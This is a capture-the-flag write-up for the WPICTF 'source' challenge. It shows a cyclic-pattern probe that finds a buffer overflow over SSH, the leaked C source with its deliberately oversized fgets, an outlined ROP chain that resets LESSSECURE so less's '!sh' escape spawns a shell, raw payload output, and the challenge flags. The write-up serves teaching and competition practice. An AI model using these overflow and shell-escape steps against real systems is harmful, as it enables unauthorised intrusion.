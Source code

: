 # Source part1, part2
## TLDR
- Part1: send "A"*110
- Part2: build rop to "setenv(LESSSECURE, "NULL", 1) -> spawn less -> !sh
## Summery of this problem
1. connect ssh
2. input password
3. if it's OK, exevcp "less source.c"


```
$ ssh source@source.wpictf.xyz -p 31337
source@source.wpictf.xyz's password: 
Enter the password to get access to https://www.imdb.com/title/tt0945513/
im bob
Pasword auth failed
exiting
Connection to source.wpictf.xyz closed.
```

## Part1
We have no binary so this is blind challenge.  
First, I tried some stirngs like,
```
$ ssh source@source.wpictf.xyz -p 31337
source@source.wpictf.xyz's password: 
Enter the password to get access to https://www.imdb.com/title/tt0945513/
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
Connection to source.wpictf.xyz closed.
```
There are no response if the input length is too long. So, there is BoF here.  
Next, I try to adjust the length and if length = 110,

```
$ ssh source@source.wpictf.xyz -p 31337
source@source.wpictf.xyz's password: 
Enter the password to get access to https://www.imdb.com/title/tt0945513/
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMA
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>

#include <stdlib.h>
#include <string.h>

//compiled with gcc source.c -o source -fno-stack-protector -no-pie
//gcc (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0

//flag for source1 is WPI{Typos_are_GrEaT!}
int getpw(void){
        int res = 0;
        char pw[100];

        fgets(pw, 0x100, stdin);
        *strchrnul(pw, '\n') = 0;
        if(!strcmp(pw, getenv("SOURCE1_PW"))) res = 1;
        return res;
}

char *lesscmd[] = {"less", "source.c", 0};
int main(void){
        setenv("LESSSECURE", "1", 1);
        printf("Enter the password to get access to https://www.imdb.com/title/tt0945513/\n");
        if(!getpw()){
                printf("Pasword auth failed\nexiting\n");
                return 1;
        }

        execvp(lesscmd[0], lesscmd);
        return 0;
}
source.c (END)

```
flag:WPI{Typos_are_GrEaT!}


## Part2
Now we have source.c. Let's compile with gcc in native ubuntu18.04. # And I could't do this on time :((((  
In this binary, there are no strigns like "/bin/sh" nor we have no write gadget like "mov [rax], rsi", so that we can't spawn shell.   
There is "!" command in "less". By using this function, we can spawn shell. But "setenv("LESSSECURE", "1", 1);" prevents us from the shell.  

So, the solution is,
1. get ret addr using BoF
2. build rop to setenv("LESSSECURE", "NULL", 1); # NOT "0"!!! see solve.py for detail.
3. spawn "less"

Care when spawning shell, we can't input with default key. Use "Ctrl + Enter" to input Enter. # I don't know why.

```
[*] Switching to interactive mode

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^A^@^@^@^@^@^@^@<^H@^@^@^@^@^@0^P`^@^@^@^@^@\x83^H@^@^@^@^@^@\xa0^P`^@^@^@^@^@^A^@^@^@^@^@^@^@ ^H@^@^@^@^@^@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb4^G@^@^@^@^@^@
$ ls
ls
flag.txt  run_problem.sh  source  source.c
$ cat f*
cat f*
WPI{lesssecure_is_m0resecure}
``` 
flag:WPI{lesssecure_is_m0resecure}
